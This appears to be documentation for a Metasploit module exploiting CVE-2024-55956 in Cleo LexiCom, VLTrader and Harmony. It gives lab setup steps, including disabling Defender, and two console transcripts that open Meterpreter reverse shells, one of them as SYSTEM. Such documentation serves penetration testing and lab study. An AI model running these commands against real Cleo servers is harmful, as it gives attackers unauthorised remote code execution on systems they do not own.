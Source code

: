 ## Vulnerable Application
This module exploits an unauthenticated file write vulnerability in Cleo LexiCom, VLTrader, and Harmony
versions 5.8.0.23 and below.

For a full technical analysis, please see our
AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/geR0H8dgrE/cve-2024-55956/rapid7-analysis).

## Testing
You must install a vulnerable copy of Cleo LexiCom, VLTrader, or Harmony. The vendor install guide for Cleo LexiCom
can be found [here](https://cleo-infoeng.s3.us-east-2.amazonaws.com/PDF/LexiCom/5.8/LexiCom_58_InstallGuide_072222.pdf).
During testing of this module Cleo LexiCom was used. On Windows you will download the `install.exe` file and on Linux
you will download the `install.bin` file. Running the installer to complete the installation. 

By default, the HTTP service will listen on TCP port 5080, so you will need to allow inbound connections to this port
from your firewall.

If testing the default Windows payloads, you should disable Defender.

## Verification Steps

1. Start msfconsole
2. `use exploit/multi/http/cleo_rce_cve_2024_55956`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set LHOST eth0`
5. `set LPORT 4444`
6. `set target 0`
7. `set PAYLOAD java/meterpreter/reverse_tcp`
8. `check`
9. `exploit`

## Scenarios

### Java

```
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set LHOST eth0
LHOST => 192.168.86.42
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set target 0
target => 1
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(multi/http/cleo_rce_cve_2024_55956) > show options 

Module options (exploit/multi/http/cleo_rce_cve_2024_55956):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    5080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf exploit(multi/http/cleo_rce_cve_2024_55956) > check
[*] 192.168.86.50:5080 - The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
msf exploit(multi/http/cleo_rce_cve_2024_55956) > exploit 
[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
[*] Sending stage (58073 bytes) to 192.168.86.50
[+] Deleted temp/iidqizro
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:59172) at 2024-12-17 13:40:58 +0000
[!] This exploit may require manual cleanup of 'temp/kagdkplw' on the target

meterpreter > getuid
Server username: WIN-V28QNSO2H05$
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > pwd
C:\LexiCom
meterpreter >
```

### Windows Command

```
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set LHOST eth0
LHOST => 192.168.86.42
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set target 1
target => 1
msf exploit(multi/http/cleo_rce_cve_2024_55956) > set payload cmd/windows/http/x64/meterpreter_reverse_tcp
payload => cmd/windows/http/x64/meterpreter_reverse_tcp
msf exploit(multi/http/cleo_rce_cve_2024_55956) > show options 

Module options (exploit/multi/http/cleo_rce_cve_2024_55956):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    5080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      APpIYmSCo        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/cleo_rce_cve_2024_55956) > check
[*] 192.168.86.50:5080 - The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
msf exploit(multi/http/cleo_rce_cve_2024_55956) > exploit 
[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
[+] Deleted temp/hzbcsche
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:59175) at 2024-12-17 13:42:09 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\LexiCom
meterpreter >
```
